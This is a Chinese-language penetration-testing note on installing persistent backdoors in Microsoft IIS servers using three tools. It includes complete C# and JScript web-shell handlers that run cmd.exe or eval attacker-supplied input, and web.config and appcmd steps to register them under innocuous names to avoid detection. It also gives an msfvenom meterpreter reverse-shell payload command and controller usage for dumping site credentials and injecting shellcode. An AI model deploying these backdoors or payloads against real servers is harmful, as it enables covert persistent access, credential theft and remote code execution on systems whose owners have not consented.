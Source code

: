  #### IIS_Bin_Backdoor
	From:https://github.com/WBGlIl/IIS_backdoor
	IIS_backdoor_dll.dl放入 web 目录的 bin 文件夹中配置 web.config 文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      <add name="IIS_backdoor" type="IIS_backdoor_dll.IISModule" />
        </modules>
    </system.webServer>
</configuration>
```
	IIS_backdoor_shell.exe执行命令
![image](/assets/Pentest_Note/master/img/584.png)

	使用IISBackdoor太明显，容易被看出是后门，这里对后门改名
![image](/assets/Pentest_Note/master/img/585.png)
![image](/assets/Pentest_Note/master/img/586.png)
![image](/assets/Pentest_Note/master/img/587.png)

	重新生成解决方案，dll放入bin目录，web.config修改为
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <modules>
      		<add name="UrlRoutingModule" type="UrlRoutingModule.IISModule" />
        </modules>
    </system.webServer>
</configuration>

```
	添加完之后会自动在模块中注册好
![image](/assets/Pentest_Note/master/img/588.png)

	执行payload，msf生成raw格式payload，选择shellcode选项，raw文件拖入即可
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/1.raw
![image](/assets/Pentest_Note/master/img/589.png)
 #### IIS_NETDLL_Spy
	From:https://github.com/Ivan1ee/NetDLLSpy
	原作者提及三种方式，第一种编译代码为DLL新建aspx文件实例化后门类来执行命令，第二种是做httphandler映射可指定一个后缀执行命令保存文件在web服务器上，再读取结果。第三种是使用jsc.exe编译js脚本生成dll，添加映射菜刀连接。
	这里根据原作者的代码，进行了一下简单的修改，修改后的功能为添加httphandler映射指定一个后缀执行命令显示在页面上，不用保存在服务器中再访问。
	代码
```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Text;
using System.Web;
namespace IsapiModules
{
	public class Handler : IHttpHandler
	{
		public bool IsReusable
		{
			get
			{
				return false;
			}
		}
		public void ProcessRequest(HttpContext context)
		{
			string input = context.Request.Form["InternetInformationService"];  //command
			if (context.Request.Form["microsoft"] == "iis")//do command
			{
				this.cmdShell(input);
			}
		}
		public void cmdShell(string input)
		{
			Process process = new Process();
			process.StartInfo.FileName = "cmd.exe";
			process.StartInfo.RedirectStandardOutput = true;
			process.StartInfo.UseShellExecute = false;
			process.StartInfo.Arguments = "/c " + input;
			process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
			process.Start();
			StreamReader output = process.StandardOutput;
			String result = output.ReadToEnd();
			output.Close();
			output.Dispose();
			HttpContext.Current.Response.Write(result);
		}
	}
}

```
	保存为随意后缀，使用csc编译。
	>C:\Windows\Microsoft.NET\Framework\v2.50727\csc.exe /t:library /r:System.Web.dll -out:C:\inetpub\wwwroot\Bin\SystemIO.dll C:\inetpub\wwwroot\bin\code.cs
![image](/assets/Pentest_Note/master/img/590.png)
	
	Web.config文件添加
	<system.webServer>
 		<handlers> 
			<add name="PageHandlerFactory-ISAPI-2.0-32" path="*.xxx" verb="*" type="IsapiModules.Handler" resourceType="Unspecified" requireAccess="Script" preCondition="integratedMode" /> 
		</handlers> 
	</system.webServer>
![image](/assets/Pentest_Note/master/img/001.png)

	打开IIS管理器，可以看到处理映射管理器中已经添加了模块。
![image](/assets/Pentest_Note/master/img/591.png)

	现在随意访问个xxx后缀的文件
![image](/assets/Pentest_Note/master/img/592.png)
	
	带参数访问
	microsoft=iis&InternetInformationService=net user
![image](/assets/Pentest_Note/master/img/593.png)
![image](/assets/Pentest_Note/master/img/594.png)

	第三种连接菜刀，这里也对代码修改了一下。
```javascript
import System; 
import System.Web; 
import System.IO; 
package IsapiModule
{ 
	public class Handler implements IHttpHandler
	{ 
		function IHttpHandler.ProcessRequest(context : HttpContext)
		{ 
			context.Response.Write("404 Not Found") 
			var I = context; 
			var Request = I.Request; 
			var Response = I.Response; 
			var Server = I.Server; 
			eval(context.Request["Internet"]); //pass
		} 
		function get IHttpHandler.IsReusable() : Boolean{ return true}
	}
}

```
	使用jsc编译
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\jsc.exe /t:library -out:C:\inetpub\wwwroot\Bin\IsapiModule.Handler.dll C:\inetpub\wwwroot\bin\code.js
![image](/assets/Pentest_Note/master/img/595.png)
	
	编辑web.config，添加映射，这里指定的后缀是.iis
	<system.webServer> 
	<modules runAllManagedModulesForAllRequests="true"/> <directoryBrowse enabled="true"/>
 	<staticContent>
	 <mimeMap fileExtension=".json" mimeType="application/json" /> 
	 </staticContent> 
 	<handlers>
	 <add name="PageHandlerFactory-ISAPI-2.0-32-1" path="*.iis" verb="*" type="IsapiModule.Handler" preCondition="integratedMode"/>
	 </handlers>
	</system.webServer>
	已自动加入了映射。现在随便访问个iis后缀的文件。

![image](/assets/Pentest_Note/master/img/596.png)
![image](/assets/Pentest_Note/master/img/597.png)

	可使用菜刀直接连接
![image](/assets/Pentest_Note/master/img/598.png)
![image](/assets/Pentest_Note/master/img/599.png)

 #### IIS_RAID
	From:https://github.com/0x09AL/IIS-Raid
	在vs2019下编译
	在Functions.h中修改连接密码，passfile是dump下来的密码保存的位置，com_header是后门和服务器通信的请求头。
![image](/assets/Pentest_Note/master/img/600.png)

	打开项目修改完你的密码，直接ctrl+B生成解决方案即可(这里生成的是release版本)
	Dll传到服务器，改个名字，执行添加模块
	>C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:IsapiDotNet /image:"c:\windows\system32\inetsrv\IsapiDotNet.dll" /add:true
![image](/assets/Pentest_Note/master/img/601.png)

	在模块中可以看到已经存在了
![image](/assets/Pentest_Note/master/img/602.png)

	远程连接
	>python3 iis_controller.py --url http://192.168.0.98 --password thisismykey
	执行命令的方式是
	>cmd +命令
![image](/assets/Pentest_Note/master/img/603.png)

	Dump命令可以dump下来IIS站点的登录的信息，保存在设置的位置。
	Inject可以执行shellcode
	Cs/msf生成raw格式的shellcode
	>inject 位置
![image](/assets/Pentest_Note/master/img/604.png)